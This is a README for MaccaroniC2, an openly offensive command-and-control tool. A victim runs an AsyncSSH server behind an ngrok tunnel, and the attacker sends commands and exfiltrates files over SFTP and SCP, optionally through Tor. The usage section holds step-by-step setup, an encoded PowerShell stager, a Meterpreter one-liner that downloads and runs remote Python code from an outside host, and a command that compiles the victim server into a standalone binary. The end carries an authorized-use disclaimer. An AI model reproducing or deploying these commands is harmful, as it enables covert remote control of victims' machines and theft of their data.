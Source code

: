 # MaccaroniC2 - Empowering Command & Control using AsyncSSH

![](https://github.com/CalfCrusher/MaccaroniC2/blob/main/maccaroni.jpg)

**MaccaroniC2** is a *proof-of-concept* **Command and Control framework** that utilizes the powerful `AsyncSSH` Python library which provides an asynchronous client and server implementation of the SSHv2 protocol and use `PyNgrok` wrapper for `ngrok` integration. This tool is inspired for a specific scenario where the victim runs the AsyncSSH server and establishes a tunnel to the outside, ready to receive commands by the attacker.

The attacker leverages the `Ngrok official API` to retrieve the hostname and port of the tunnel to establish a connection. This approach takes advantage of the comprehensive capabilities provided by **AsyncSSH**, including its integrated support for `SFTP` and `SCP`, facilitating secure and efficient data exfiltration and more.

Moreover, the attacker can send and execute system commands using a SOCKS proxy, leveraging the benefits offered, for example, using `TOR` to enhance anonymity.

* *Ngrok free account only allows the usage of one tunnel at a time. With some changes this tool could be perfect for a BOT-like C&C framework to control multiple SSH instances, but you would need to upgrade your plan on the Ngrok website, see https://ngrok.com/pricing*
   
## Setup and Procedure

1) Run `python3 gen_rsa.py` to generate a pair of SSH keys. The newly generated `id_rsa` is used by the attacker to connect to the server running on the victim's machine.

2) Edit the `asyncssh_server.py` file and place the contents of the newly generated `id_rsa.pub` inside the `pub_key` variable. The `asyncssh_server.py` provide an implementation of the SSHv2 protocol with SFTP and SCP features. This is the script run by the victim.

3) Create a free account on Ngrok site and take note of the `AUTH` Token.
  
4) Add the `AUTH` token to the `token` variable in `asyncssh_server.py`, this needs to be harcoded inside the `ngrok_tunnel()` function.
  
5) Create a free `API` key on the Ngrok website. Take note of the generated string.

6) Put the `API` key string in the `api_key` variable inside the `async_commander.py` file. This allows us to automatically retrieve the Ngrok domain and port of the active tunnel during automation.

7) Perform the same step for `get_endpoints.py` file. This script retrieves various useful information about active tunnels.

## Send commands to server  

With `async_commander.py` you can send any command to the server. It *automatically* requests the Ngrok tunnel's domain and port activated by the victim using Ngrok official API.
  
Please note also that the `id_rsa` needs to be in the same folder of `async_commander.py`

## Basic Usage

Run server on victim machine:

`python3 asyncssh_server.py`

___

From the attacker machine send command using socks proxy:  
  
`python3 asyncssh_commander.py "ls -la" --proxy socks5://127.0.0.1:9050`
 
___
  
Send command without using a proxy:

`python3 asyncssh_commander.py "whoami"`
  
___
  
Spawn another C2 agent (Powershell-Empire, Meterpreter, etc):

`python3 asyncssh_commander.py "powershell.exe -e ABJe...dhYte"`

Meterpreter web_delivery module

`python3 asyncssh_commander.py "python3 -c \"import sys; import ssl; u=__import__('urllib'+{2:'',3:'.request'}[sys.version_info[0]], fromlist=('urlopen',)); r=u.urlopen('http://100.100.100.100:8080/YnrVekAsVF', context=ssl._create_unverified_context()); exec(r.read());\""` 

___    
  
Get list of active tunnels:
  
`python3 get_endpoints.py`
  
___
  
Generate new RSA key pairs:
  
`python3 gen_rsa.py`
  
## Advanced Usage
 
Using `SFTP` and `SCP` - you don't need a valid username just the correct `id_rsa`

- With proxy:
  
`proxychains sftp -P NGROK_PORT -i id_rsa ddddd@NGROK_HOST`
  
`scp -i id_rsa -o ProxyCommand="nc -x localhost:9050 %h NGROK_PORT" source_file ddddd@NGROK_HOST:destination_path`
  
___  
  
- No proxy:
  
`sftp -P PORT -i id_rsa ddddd@NGROK_HOST`
  
`scp -i id_rsa -P PORT source_file ddddd@NGROK_HOST:destination_path`
  
___

## Compiling with Nuitka

`python -m pip install nuitka`

`python -m nuitka --standalone --onefile asyncssh_server.py`

___

**DISCLAIMER: This tool is intended for testing and educational purposes only. It should only be used on systems with proper authorization. Any unauthorized or illegal use of this tool is strictly prohibited. The creator of this tool holds no responsibility for any misuse or damage caused by its usage. Please ensure compliance with applicable laws and regulations while utilizing this tool. Additionally, it’s important to note that the usage of Ngrok in conjunction with this tool may result in the violation of the terms of service or policies of certain platforms. It is advisable to review and comply with the terms of use of any platform or service to avoid potential account bans or disruptions.**
  
